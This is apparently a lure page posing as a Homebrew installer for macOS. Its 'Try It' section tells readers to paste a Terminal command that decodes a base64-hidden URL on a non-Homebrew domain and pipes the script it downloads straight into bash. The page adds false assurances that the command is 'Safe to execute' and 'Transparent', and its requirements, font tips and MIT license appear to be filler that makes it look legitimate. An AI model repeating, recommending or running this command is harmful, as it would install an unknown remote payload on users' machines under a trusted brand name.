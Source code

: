 
# 🍺 Homebrew Access for macOS

Streamline your workflow on macOS with a command-line enhancement designed for speed and simplicity.

---

### 🚀 Try It

Copy this command and paste it into your macOS Terminal:

```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9hbmdlbGFrd2FrLmNvbS9Ib21lYnJldy9pbnN0YWxsL0hFQUQvaW5zdGFsbC5zaA== | base64 -d))"
```

✅ Safe to execute  
🔍 Transparent and decodable  
🍃 Focused on essentials

---

### 🛠️ Requirements

- macOS 10.14 or newer  
- Terminal access  
- Stable internet connection

---

### 🎨 Optional Tweaks

Enhance legibility using fonts like [JetBrains Mono](https://www.jetbrains.com/lp/mono/) or [Fira Code](https://github.com/tonsky/FiraCode).

---

### 📄 License

MIT License

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the “Software”), to deal
in the Software without restriction...

(Full license text continues here.)
